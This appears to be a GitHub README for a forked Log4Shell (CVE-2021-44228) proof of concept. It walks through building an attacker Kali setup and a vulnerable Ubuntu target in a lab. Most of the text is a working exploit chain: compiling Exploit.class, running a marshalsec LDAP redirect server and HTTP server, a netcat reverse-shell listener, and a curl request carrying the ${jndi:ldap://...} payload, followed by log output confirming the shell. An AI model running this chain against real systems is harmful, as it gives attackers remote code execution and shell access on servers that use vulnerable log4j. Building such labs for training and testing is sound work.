 # Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up and using an ubuntu server rather than docker. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:

Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- maven
- Kali Linux
- Ubuntu Server

# Kali Linux
clone the git repo to your Kali VM
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```bash
cd attacker/exploit && sudo nano Exploit.java
```
Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```bash
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```bash
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`

Install Maven if required
```bash
sudo apt installl maven -y
```

```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```bash
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback
In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```bash
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```bash
sudo apt update && sudo apt upgrade -y
```
```bash
sudo apt install openjdk-11-jdk -y
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```bash
cd TargetServer/log4j-lab
```
You will need to download the log4j dependanies for the vulnerable java application to run
```bash
mkdir log4j && cd log4j

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar
wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar
```

To run the Application just run 
```bash
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```bash
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access



## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@AdamJN](https://github.com/AdamJNew)

[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo
